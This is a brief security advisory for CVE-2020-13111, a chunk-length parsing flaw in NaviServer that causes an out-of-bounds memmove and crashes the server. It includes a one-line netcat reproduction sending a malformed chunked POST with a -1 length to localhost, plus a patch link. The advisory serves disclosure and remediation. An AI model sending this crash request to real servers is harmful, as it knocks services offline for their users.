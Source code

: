 # CVE-2020-13111: Out-of-bounds write in NaviServer

NaviServer 4.99.4 to 4.99.19 mishandles parsing and validation of chunk lengths in the function `ChunkedDecode` in `driver.c`  This will result in a negative value being passed to memmove via the `size` parameter, causing a huge copy to hit an unmapped page, so called wild copy and termination of the `nsd` process.

The following request is used to reproduce this issue:

```
echo -e "POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\n\r\n-1\r\nchunk\r\n0\r\n\r\n" | nc localhost 8080
```

Patch is available in [3].

## References 

[1] NaviServer - https://sourceforge.net/projects/naviserver/

[2] Google Project Zero: Taming the wild copy: Parallel Thread Corruption - https://googleprojectzero.blogspot.com/2015/03/taming-wild-copy-parallel-thread.html

[3] Patch - https://bitbucket.org/naviserver/naviserver/commits/a5c3079f1d8996d5f34c9384a440acf3519ca3bb
